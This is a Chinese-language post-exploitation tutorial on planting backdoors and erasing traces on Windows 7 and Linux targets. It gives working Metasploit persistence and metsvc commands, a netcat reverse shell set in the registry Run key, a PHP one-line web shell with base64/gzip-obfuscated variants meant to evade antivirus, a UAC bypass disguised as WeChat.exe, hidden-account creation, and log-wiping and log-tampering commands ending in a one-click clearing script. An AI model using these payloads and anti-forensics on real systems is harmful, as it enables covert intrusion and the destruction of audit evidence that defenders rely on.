


# 后渗透之后门植入和痕迹清除

## 0x01后门植入

### **1. Metsvc**

- **虚拟机实验环**

  一台kail

  一台windows7

  Kail已有靶机管理员权限

- **操作过程**

  1. 使用指令：run metsvc -A或run metsvc（如创建服务失败，可查看Tips-6）

     

  2. 在靶机上查看效果

     

     

  3. 回连方式：

     ```
     Set rhost 靶机ip
     Set lport 31337[固定端口]
     Set payload windows/metsvc_bind_tcp
     （附：通过该后门得到的session很快会死亡，截至该文档发布仍然未解决这个问题）
     ```

     

- **指令解析**

  在31337端口开启meterpreter服务，即将meterpreter以系统服务的形式安装在目标主机上，会在目标主机上以Meterpreter的服务的形式注册在服务列表中，并开机自动自动。

  运行成功后可以在指定目录看见上传的metsvc.dll、metsvc-service.exe、metsvc.exe。

  卸载方法：运行指令run metsvc -r

- **“中毒”特征**

  Metsvc固定在端口31337运行，可以通过端口扫描软件查看是否开放该端口或提供相应服务。如发现该后门，在注册表中找到木马文件并删除即可恢复正常。

### 2. **Persistence**

- **虚拟机实验环境**

  一台kail

  一台windows7

  Kail已有靶机管理员权限

- **操作过程**

  1. 使用指令run persistence -X -A -i 20 -p 6666 -r 192.168.236.130（主机ip（接收反弹的主机地址））[如指令使用失败，与Metsvc原因相同]

     

  2. 连接端口（可以不修改）

     ```
     Use exploit/multi/handler
     Set payload windows/meterpreter/reverse_tcp
     Set lhost 靶机ip
     Set lport 上方设置的端口号
     ```

     

  3. 重启靶机后，回弹一个session

     

- **指令解析**

  A：自动启动Payload程序

  S：系统登录时自动加载

  U：用户登录时自动启动

  X：开机时自动加载

  i：回连的时间间隔

  P：监听反向连接端口号

  r：目标机器 IP 地址（攻击主机）

  该指令将在C:\~\AppData\Local\Temp\目录下上传一个vbs脚本，

  在注册表HKLM\Software\Microsoft\Windows\CurrentVersion\Run\加入开机启动项。

  如需更多帮助，可以使用run persistence –h 

- **“中毒”特征**

  重启靶机后可以验证，在-i设定的时间间隔内重新向攻击机返回session。

### **3. Netcat**

- **虚拟机实验环境**

  一台kail（包含nc.exe）（下载链接查看Tips-5）

  一台windows7

- **操作过程**

  1. 上传nc.exe到靶机的system32目录下[如指令使用失败，与Metsvc原因相同]

     指令：upload /root/nc.exe c:\\windows\\system32

     

  2. 查看启动项键值

     ```
     reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run
     ```

     

  3. 在注册表启动项内添加后门

     ```
     -v 指定服务名称
     -d指定程序路径
     -Ldp指定反弹shell的端口
     -e指定反弹的程序
     reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d 'C:\windows\system32\nc.exe -Ldp 9080 -e cmd.exe'
     ```

     

  4. 查看是否添加成功

     ```
     reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run
     ```

     

  5. 重启靶机，测试后门，获得system权限的shell

     ```
     Background
     Nc 靶机ip 端口号
     ```

     


### **4. 恶意php注入**

- **虚拟机实验环境**

  一台windows7

  有php注入漏洞的网站

- **操作过程**

  1. 准备一份带有恶意代码的php文件，此处命名为hach.php

     ```
     <?php @eval($_POST[‘hack’]); ?>
     ```

     

  2. 将文件通过输入框上传后，返回值为

     

  3. 使用中国菜刀进行连接。先打开中国菜刀软件，在页面右键后点击添加，在地址输入http://127.0.0.1/upload/hach.php。地址后的小框（红圈标出）中填入hack(即hach.php代码中用单引号扩起的字符）

     

  4. 双击后可看见相应文件

     

- **指令解析**

  1. 最常见的一句话木马：eval_r($_POST[cmd]);

     ```
     为了达到免杀及隐藏效果的加密代码：eval_r(base64_decode('ZXZhbCgkX1BPU1RbJ2NtZCddKTs='));
     其它高级变种：
     eval_r(gzinflate(base64_decode('Sy1LzNFQiQ/wDw6JVk/OTVGP1bQGAA==')));
     eval_r(gzuncompress(base64_decode('eJxLLUvM0VCJD/APDolWT85NUY/VtAYARQUGOA==')));
     eval_r(gzdecode(base64_decode('H4sIAAAAAAAAA0stS8zRUIkP8A8OiVZPzk1Rj9W0BgA5YQfAFAAAAA==')));
     eval_r(str_rot13('riny($_CBFG[pzq]);'));
     ```

  2. 使用assert 函数类型的一句话木马及其变种：assert($_POST[cmd]);

     ```
     call_user_func('assert',$_POST[cmd]);
     call_user_func($_GET[a],$_REQUEST[cmd]);
     $_GET[a]($_REQUEST[cmd]);
     ```

### 5. Tips

1. 为避免不必要的错误，靶机需要关闭防火墙

2. 进行后门植入时，靶机应保持在线状态

3. 为防止错误操作造成的影响，在关键步骤保存快照是良好的素养

4. 进行Metsvc和Persistence后门植入前的操作简要介绍

   

5. nc.exe及相关工具的下载地址：https://eternallybored.org/misc/netcat/

6. 使用指令创建服务失败

   

   原因：权限为普通用户

   解决办法：

   （1）use exploit/windows/local/ask

   

   （2）set session 1

   

   （3）set filname WeChat.exe

   ​		  Run

   

   （4）靶机中出现如下提示，点击是

   

   （5）权限为system（如权限仍为普通用户，先使用getsystem）

   

   （6）再次使用指令，成功执行

   

## 0x02痕迹清除

### 1. **Windows篇**

- 删除添加的账号：net user 用户名 /del

  

- 删除日志：clearev（需要管理员权限）

  

- 关闭所有session连接：sessions -K

  

- 目标主机创建隐藏用户【注意：需要管理员权限】：

  1. 使用shell命令进入cmd

  2. 使用$符号隐藏创建用户

     ```
     c:\Document and Setting\rush\Desktop > net user hacker$ hacker  /add
     ```

     

### 2. Linux篇

1. 基础代码（有权限要求）

   ```
   histroy -r      #删除当前会话历史记录
   history -c      #删除内存中的所有命令历史
   rm .bash_history  #删除历史文件中的内容
   HISTZISE=0      #通过设置历史命令条数来清除所有历史记录
   ```

2. 完全删除日志文件（有权限要求）

   ```
   cat /dev/null > filename
   : > filename
   \> filename
   echo "" > filename
   echo > filename
   ```

3. 针对性删除日志文件（有权限要求）

   ```
   // 删除当天日志
   sed  -i '/当天日期/'d  filename
   ```

4. 篡改日志文件（有权限要求）

   ```
   将所有172.16.13.1ip替换为127.0.0.1
   sed -i 's/172.16.13.1/127.0.0.1/g'
   ```

5. 一键清除脚本

   ```
   #!/usr/bin/bash
   echo > /var/log/syslog
   echo > /var/log/messages
   echo > /var/log/httpd/access_log
   echo > /var/log/httpd/error_log
   echo > /var/log/xferlog
   echo > /var/log/secure
   echo > /var/log/auth.log
   echo > /var/log/user.log
   echo > /var/log/wtmp
   echo > /var/log/lastlog
   echo > /var/log/btmp
   echo > /var/run/utmp
   rm ~/./bash_history
   history -c
   ```

   